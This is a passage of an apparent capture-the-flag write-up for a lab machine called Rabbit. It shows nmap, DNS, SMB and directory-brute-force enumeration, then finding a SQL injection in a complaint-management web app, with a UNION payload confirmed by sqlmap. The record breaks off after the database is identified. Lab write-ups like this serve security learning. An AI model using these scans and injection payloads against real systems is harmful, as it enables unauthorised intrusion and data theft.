









# Rabbit
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.71 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-24 18:48 BST
Warning: 10.10.10.71 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.71 (10.10.10.71)
Host is up (0.16s latency).
Not shown: 65482 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
389/tcp   open     ldap
443/tcp   open     https
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
587/tcp   open     submission
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
808/tcp   open     ccproxy-http
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
3306/tcp  open     mysql
5722/tcp  open     msdfsr
5985/tcp  open     wsman
6001/tcp  open     X11:1
6002/tcp  open     X11:2
6003/tcp  open     X11:3
6004/tcp  open     X11:4
6005/tcp  open     X11:5
6006/tcp  open     X11:6
6007/tcp  open     X11:7
6008/tcp  open     X11:8
6010/tcp  open     x11
6011/tcp  open     x11
6019/tcp  open     x11
6143/tcp  open     watershed-lm
8080/tcp  open     http-proxy
9389/tcp  open     adws
9706/tcp  open     unknown
9712/tcp  open     unknown
9716/tcp  open     unknown
9733/tcp  open     unknown
9736/tcp  open     unknown
9744/tcp  open     unknown
9768/tcp  open     unknown
9784/tcp  open     unknown
9795/tcp  open     unknown
9799/tcp  open     unknown
9805/tcp  open     unknown
9808/tcp  open     unknown
9825/tcp  open     unknown
9837/tcp  open     unknown
9850/tcp  open     unknown
9861/tcp  open     unknown
25562/tcp filtered unknown
47001/tcp open     winrm
48104/tcp filtered unknown
64327/tcp open     unknown
64337/tcp open     unknown

```
```
└─$ nmap -Pn -p25,53,80,88,135,389,443,445,464,587,593,636,808,3268,3269,3306,5722,5985,6001,6002,6003,6004,6005,6006,6007,6008,6010,6011,6019,6143,8080,9389,9706,9712,9716,9733,9736,9744,9768,9784,9795,9799,9805,9808,9825,9837,9850,9861,25562,47001,48104,64327,64337 -sC -sV 10.10.10.71 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-24 19:08 BST
Nmap scan report for 10.10.10.71 (10.10.10.71)
Host is up (0.18s latency).

PORT      STATE  SERVICE              VERSION
25/tcp    open   smtp                 Microsoft Exchange smtpd
| smtp-commands: Rabbit.htb.local Hello [10.10.16.9], SIZE, PIPELINING, DSN, ENHANCEDSTATUSCODES, X-ANONYMOUSTLS, AUTH NTLM, X-EXPS GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING, XEXCH50, XRDST, XSHADOW
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
| smtp-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: RABBIT
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: Rabbit.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
53/tcp    open   domain               Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
80/tcp    open   http                 Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 403 - Forbidden: Access is denied.
88/tcp    open   kerberos-sec         Microsoft Windows Kerberos (server time: 2023-09-24 23:08:23Z)
135/tcp   open   msrpc                Microsoft Windows RPC
389/tcp   open   ldap                 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
443/tcp   open   ssl/http             Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_http-server-header: Microsoft-IIS/7.5
|_ssl-date: 2023-09-24T23:09:56+00:00; +4h59m20s from scanner time.
| ssl-cert: Subject: commonName=Rabbit
| Subject Alternative Name: DNS:Rabbit, DNS:Rabbit.htb.local
| Not valid before: 2017-10-24T17:56:42
|_Not valid after:  2022-10-24T17:56:42
|_http-title: IIS7
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
587/tcp   open   smtp                 Microsoft Exchange smtpd
| smtp-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: RABBIT
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: Rabbit.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| smtp-commands: Rabbit.htb.local Hello [10.10.16.9], SIZE 10485760, PIPELINING, DSN, ENHANCEDSTATUSCODES, AUTH GSSAPI NTLM, 8BITMIME, BINARYMIME, CHUNKING
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH BDAT
593/tcp   open   ncacn_http           Microsoft Windows RPC over HTTP 1.0
636/tcp   open   ldapssl?
808/tcp   open   ccproxy-http?
3268/tcp  open   ldap                 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open   globalcatLDAPssl?
3306/tcp  open   mysql                MySQL 5.7.19
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.19
|   Thread ID: 15
|   Capabilities flags: 63487
|   Some Capabilities: DontAllowDatabaseTableColumn, Support41Auth, SupportsTransactions, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, Speaks41ProtocolOld, InteractiveClient, ODBCClient, IgnoreSigpipes, LongColumnFlag, LongPassword, Speaks41ProtocolNew, SupportsLoadDataLocal, FoundRows, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: ?s( 8h)
| \x0FHpes~\x1D-\x1E    \x11H
|_  Auth Plugin Name: mysql_native_password
5722/tcp  open   msrpc                Microsoft Windows RPC
5985/tcp  open   http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6001/tcp  open   ncacn_http           Microsoft Windows RPC over HTTP 1.0
6002/tcp  open   ncacn_http           Microsoft Windows RPC over HTTP 1.0
6003/tcp  open   ncacn_http           Microsoft Windows RPC over HTTP 1.0
6004/tcp  open   ncacn_http           Microsoft Windows RPC over HTTP 1.0
6005/tcp  open   msrpc                Microsoft Windows RPC
6006/tcp  open   msrpc                Microsoft Windows RPC
6007/tcp  open   msrpc                Microsoft Windows RPC
6008/tcp  open   msrpc                Microsoft Windows RPC
6010/tcp  open   ncacn_http           Microsoft Windows RPC over HTTP 1.0
6011/tcp  open   msrpc                Microsoft Windows RPC
6019/tcp  open   msrpc                Microsoft Windows RPC
6143/tcp  open   msrpc                Microsoft Windows RPC
8080/tcp  open   http                 Apache httpd 2.4.27 ((Win64) PHP/5.6.31)
|_http-server-header: Apache/2.4.27 (Win64) PHP/5.6.31
|_http-title: Example
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-open-proxy: Proxy might be redirecting requests
9389/tcp  open   mc-nmf               .NET Message Framing
9706/tcp  open   msrpc                Microsoft Windows RPC
9712/tcp  open   msrpc                Microsoft Windows RPC
9716/tcp  open   msrpc                Microsoft Windows RPC
9733/tcp  open   msrpc                Microsoft Windows RPC
9736/tcp  open   msrpc                Microsoft Windows RPC
9744/tcp  open   msrpc                Microsoft Windows RPC
9768/tcp  open   msrpc                Microsoft Windows RPC
9784/tcp  open   msrpc                Microsoft Windows RPC
9795/tcp  open   msrpc                Microsoft Windows RPC
9799/tcp  open   msrpc                Microsoft Windows RPC
9805/tcp  open   msrpc                Microsoft Windows RPC
9808/tcp  open   msrpc                Microsoft Windows RPC
9825/tcp  open   msrpc                Microsoft Windows RPC
9837/tcp  open   msrpc                Microsoft Windows RPC
9850/tcp  open   msrpc                Microsoft Windows RPC
9861/tcp  open   msrpc                Microsoft Windows RPC
25562/tcp closed unknown
47001/tcp open   http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
48104/tcp closed unknown
64327/tcp open   msexchange-logcopier Microsoft Exchange 2010 log copier
64337/tcp open   mc-nmf               .NET Message Framing
Service Info: Hosts: Rabbit.htb.local, RABBIT; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2:sp1

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 4h59m19s, deviation: 0s, median: 4h59m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.60 seconds

```

- `dns`
```
└─$ dig  @10.10.10.71 htb.local 

; <<>> DiG 9.18.16-1-Debian <<>> @10.10.10.71 htb.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: FORMERR, id: 52872
;; flags: qr rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; COOKIE: e422a86ce556fab3 (echoed)
;; QUESTION SECTION:
;htb.local.                     IN      A

;; Query time: 99 msec
;; SERVER: 10.10.10.71#53(10.10.10.71) (UDP)
;; WHEN: Sun Sep 24 20:55:55 BST 2023
;; MSG SIZE  rcvd: 50
```
```
└─$ dig axfr  @10.10.10.71 htb.local

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.10.71 htb.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

- `smb`
```
└─$ smbclient -N -L //10.10.10.71
protocol negotiation failed: NT_STATUS_CONNECTION_RESET
```

- `rpcclient`
```
└─$ rpcclient 10.10.10.71        
Cannot connect to server.  Error was NT_STATUS_CONNECTION_RESET
```

- Web Server



- Port `443`



- Port `8080`


- `gobuster`
```
└─$ feroxbuster -u https://10.10.10.71 -x asp,aspx -k -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --depth 1 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://10.10.10.71
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [asp, aspx]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 1
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET       32l      121w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      826l     4457w   331772c https://10.10.10.71/welcome.png
200      GET       32l       53w      689c https://10.10.10.71/
302      GET        2l       10w      146c https://10.10.10.71/public => https://10.10.10.71/owa
302      GET        2l       10w      146c https://10.10.10.71/exchange => https://10.10.10.71/owa
302      GET        2l       10w      146c https://10.10.10.71/Public => https://10.10.10.71/owa
404      GET       32l      122w     1501c https://10.10.10.71/%20.aspx
400      GET        1l        2w       11c https://10.10.10.71/*checkout*.aspx
301      GET        0l        0w        0c https://10.10.10.71/owa => https://10.10.10.71/owa/
400      GET        1l        2w       11c https://10.10.10.71/*docroot*.aspx
400      GET        1l        2w       11c https://10.10.10.71/*.aspx
404      GET       32l      122w     1511c https://10.10.10.71/video%20games.aspx
404      GET       32l      122w     1514c https://10.10.10.71/spyware%20doctor.aspx
404      GET       32l      124w     1514c https://10.10.10.71/4%20Color%2099%20IT2.aspx
404      GET       32l      122w     1508c https://10.10.10.71/cable%20tv.aspx
404      GET       32l      122w     1513c https://10.10.10.71/long%20distance.aspx
400      GET        1l        2w       11c https://10.10.10.71/http%3A%2F%2Fwww.aspx
404      GET       32l      122w     1510c https://10.10.10.71/windows%20xp.aspx
404      GET       32l      124w     1526c https://10.10.10.71/Michael%20Jackson%20-%20Thriller.aspx
404      GET       32l      122w     1516c https://10.10.10.71/Battlefield%202142.aspx
404      GET       32l      122w     1512c https://10.10.10.71/System%20Tools.aspx

```
```
└─$ feroxbuster -u http://10.10.10.71:8080 -x php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --depth 1       

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.71:8080
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       33w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       33w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      107l      178w    10065c http://10.10.10.71:8080/index
200      GET      107l      178w    10065c http://10.10.10.71:8080/
200      GET      107l      178w    10065c http://10.10.10.71:8080/Index
200      GET      345l     1784w   453156c http://10.10.10.71:8080/favicon
200      GET      107l      178w    10065c http://10.10.10.71:8080/INDEX
301      GET        9l       29w      328c http://10.10.10.71:8080/joomla => http://10.10.10.71:8080/joomla/
301      GET        9l       29w      330c http://10.10.10.71:8080/complain => http://10.10.10.71:8080/complain/

```

- http://10.10.10.71:8080/joomla/



- http://10.10.10.71:8080/complain/



## Foothold/User
- `joomla` version `3.6`
```
└─$ curl -s http://10.10.10.71:8080/joomla/administrator/manifests/files/joomla.xml | xmllint --format - 
<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2005 - 2017 Open Source Matters. All rights reserved</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>3.8.1</version>
  <creationDate>October 2017</creationDate>
  <description>FILES_JOOMLA_XML_DESCRIPTION</description>
  <scriptfile>administrator/components/com_admin/script.php</scriptfile>
...
```

- `complain management system`
  - Register a user
  - Nothing interesting inside




- `searchsploit`
```
┌──(kali㉿kali)-[~]
└─$ searchsploit complain
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Complain Management System - Hard-Coded Credentials / Blind SQL injection                                                                                                                                 | php/webapps/42968.txt
Complain Management System - SQL injection                                                                                                                                                                | php/webapps/41131.txt
Complaint Management System 1.0 - 'cid' SQL Injection                                                                                                                                                     | php/webapps/48758.txt
Complaint Management System 1.0 - 'username' SQL Injection                                                                                                                                                | php/webapps/48468.py
Complaint Management System 1.0 - Authentication Bypass                                                                                                                                                   | php/webapps/48452.txt
Complaint Management System 4.0 - 'cid' SQL injection                                                                                                                                                     | php/webapps/47847.txt
Complaint Management System 4.0 - Remote Code Execution                                                                                                                                                   | php/webapps/47884.py
Complaint Management System 4.2 - Authentication Bypass                                                                                                                                                   | php/webapps/48371.txt
Complaint Management System 4.2 - Cross-Site Request Forgery (Delete User)                                                                                                                                | php/webapps/48372.txt
Complaint Management System 4.2 - Persistent Cross-Site Scripting                                                                                                                                         | php/webapps/48370.txt
Complaints Report Management System 1.0 - 'username' SQL Injection / Remote Code Execution                                                                                                                | php/webapps/48985.txt
Consumer Complaints Clone Script 1.0 - 'id' SQL Injection  
```

- The `42968.txt` has a `SQL` injection part
  - Let's test http://10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans


- Replacing `plans` with `'` issues error
  - Moreover `UNION` injection works (with 5 columns)




- Let's use `sqlmap`
```
─$ sqlmap -r sqli.req --batch --level 5 --risk 3 -p id --technique U 
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:23:15 /2023-09-25/

...
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: mod=admin&view=repod&id=plans UNION ALL SELECT NULL,NULL,CONCAT(0x716a766271,0x635244734b61576c59584848796547614150576544425746664d5475534c6d48776d796f57706e46,0x7178717671),NULL,NULL-- -
---
[18:23:38] [INFO] testing MySQL
[18:23:39] [INFO] confirming MySQL
[18:23:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.27, PHP 5.6.31
back-end DBMS: MySQL >= 5.0.0
[18:23:41] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.10.71'

